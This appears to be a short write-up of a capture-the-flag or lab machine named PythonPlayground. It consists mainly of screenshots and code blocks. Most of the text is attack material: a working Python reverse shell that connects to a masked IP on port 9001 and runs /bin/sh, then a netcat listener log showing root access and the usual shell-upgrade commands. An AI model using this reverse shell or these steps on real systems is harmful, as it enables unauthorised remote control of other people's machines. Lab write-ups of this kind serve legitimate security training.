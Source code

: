 <img width="1032" height="230" alt="image" src="https://github.com/user-attachments/assets/0a00cfdd-e327-461c-b180-ce29f5b03746" />

<br>
<br>

<img width="1027" height="140" alt="image" src="https://github.com/user-attachments/assets/b93a4b2f-c6a4-4e9e-97d9-3bd5131f57ad" />


```bash
// Let the tab key work :)

        var textareas = document.getElementsByTagName('textarea');
        var count = textareas.length;
        for(var i=0;i<count;i++){
            textareas[i].onkeydown = function(e){
                if(e.keyCode==9 || e.which==9){
                    e.preventDefault();
                    var s = this.selectionStart;
                    this.value = this.value.substring(0,this.selectionStart) + "\t" + this.value.substring(this.selectionEnd);
                    this.selectionEnd = s+1; 
                }
            }
        }
```

<br>
<br>

```bash
import	socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("xx.xxx.xx.xxx",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

<img width="1044" height="230" alt="image" src="https://github.com/user-attachments/assets/b1eb0544-cbd3-4eb4-86c4-bee27b8c2cda" />

<br>
<br>

<img width="1024" height="511" alt="image" src="https://github.com/user-attachments/assets/42f62ba4-1320-4f9f-9ce7-2bb670d70f6f" />

<br>
<br>


```bash
:~/PythonPlayground# nc -nlvp 9001
...
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/root/app
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@playgroundweb:~/app# ^Z
[3]+  Stopped                 nc -nlvp 9001
:~/PythonPlayground# stty raw -echo; fg
nc -nlvp 9001

root@playgroundweb:~/app# export TERM=xterm
```
